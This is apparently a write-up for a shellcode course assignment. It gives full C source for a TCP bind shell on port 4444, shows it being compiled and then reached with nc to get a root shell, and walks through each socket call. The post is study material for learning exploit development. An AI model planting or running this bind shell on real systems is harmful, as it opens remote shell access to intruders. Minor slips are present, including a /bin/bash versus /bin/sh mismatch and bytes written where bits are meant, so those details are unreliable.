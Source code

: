 ```yaml
---
title: SLAE64 Assignment 1 - TCP Bind-Shell Shellcode
date: 2020-4-06
layout: single
classes: wide
tags:
  - Bind
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)


# Bindshell Analysis
## Bindshell.c
+ To better understand x64 shellcode, I first created a working bindshell in C.

### shellcode.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <stdlib.h>

int main(void)
{
  int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
  struct sockaddr_in ipSocketAddr = { 
    .sin_family = AF_INET, 
    .sin_port = htons(4444), 
    .sin_addr.s_addr = htonl(INADDR_ANY) 
  };
  bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));
  listen(ipv4Socket, 0);
  int clientSocket = accept(ipv4Socket, NULL, NULL);
  dup2(clientSocket, 0);
  dup2(clientSocket, 1);
  dup2(clientSocket, 2);
  execve("/bin/bash", NULL, NULL);
}
```
### Compile Shellcode
```bash
root# uname -orm
5.3.0-amd64 x86_64 GNU/Linux
root# gcc bindshell.c -o bindshell
```

### Test Shellcode
#### Terminal 1
```bash 
root# ./bindshell

```
#### Terminal 2
```bash
root# nc 127.0.0.1 4444
whoami
root

```


### Function Analysis
1. Create a new Socket.
```c 
int socket(int domain, int type, int protocol); 
```
  + `int domain   = AF_INET`
    - IPv4 Internet protocols.
  + `int type     = SOCK_STREAM`
    - Provides sequenced, reliable, two-way, connection-based byte streams (TCP).
  + `int protocol = IPPROTO_IP`
    - The protocol to be used with the socket.
    - When there is only one protocol option within the address family (like in this case), the value `0` is used. 
  + For complete details see: `man socket`
2. Create an IP Socket Address structure.
```c
 struct sockaddr_in {
               sa_family_t    sin_family; /* address family: AF_INET */
               in_port_t      sin_port;   /* port in network byte order */
               struct in_addr sin_addr;   /* internet address */
           };
           /* Internet address. */
           struct in_addr {
               uint32_t       s_addr;     /* address in network byte order */
           }; 
```
  + `sa_family_t sin_family  = AF_INET`
    - From Socket, we know that we will need to use the Address Family `AF_INET`
  + `in_port_t sin_port      = htons(4444)`
    - TCP Port 4444
    - The `htons()` function converts our decimal integer to 16-byte little-endian hex (aka "network byte order")
  + `struct in_addr sin_addr = htonl(INADDR_ANY)` 
    - All interfaces.
    - The `htonl()` function converts our decimal integer to 32-byte little-endian hex.
  + For complete details see: `man ip.7`
```
3. Bind the IP Socket Address to Socket. 
```c
int bind(int sockfd, const struct sockaddr \*addr, socklen\_t addrlen);`
```
  + `sockfd = ipv4Socket`
    - The socket file descriptor returned from `socket()` and saved as the variable `ipv4Socket`.
  + `const struct sockaddr *addr = &ipSocketAddr`
    - A pointer to the IP Socket Address structure `ipSocketAddr`.
  + `socklen_t addrlen = sizeof(ipSocketAddr)`
    - The byte length of our `ipSocketAddr` structure.
    - `sizeof()` returns the length in bytes of the variable.
  + For complete details see: `man bind`
4. Listen for connections to the TCP Socket at the IP Socket Address.
```c
int listen(int sockfd, int backlog);
```
  + `int sockfd  = ipv4Socket`
  + `int backlog = 0` 
    - This is for handling multiple connections. 
    - We only need to handle one connection at a time, therefor we will set this value to `0`. 
  + For complete details see: `man listen`
5. Accept connections to the TCP-IP Socket and create a Client Socket.
```c
int accept4(int sockfd, struct sockaddr *addr, socklen_t *addrlen, int flags);
int clientSocket = accept(ipv4Socket, NULL, NULL);
```
  + `int sockfd = ipv4Socket`
  + `struct sockaddr *addr = NULL`
    - This structure is filled in with the address of the peer socket.
  + `socklen_t *addrlen = NULL`
    - When addr is NULL, nothing is filled in; in this case, addrlen is not used, and should also be NULL.
  + `int flags  = NULL`
  + The function will return the new Socket File-Descriptor. Save as `clientSocket`
  + For complete details see: `man accept`
6. Transfer Standard-Input, Standard-Output, and Standard-Error to the client socket.
```c
int dup2(int oldfd, int newfd);
dup2(clientSocket, 0); // STDIN
dup2(clientSocket, 1); // STDOUT
dup2(clientSocket, 2); // STDERR
```
  + For complete details see: `man dup2`
7. Spawn a `/bin/sh` shell for the client, in the connected session.
```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
execve("/bin/sh", NULL, NULL);
```
  + `const char *pathname = "/bin/sh"`
  + `char *const argv[] = NULL`
  + `char *const envp[] = NULL`
  + For complete details see: `man execve`

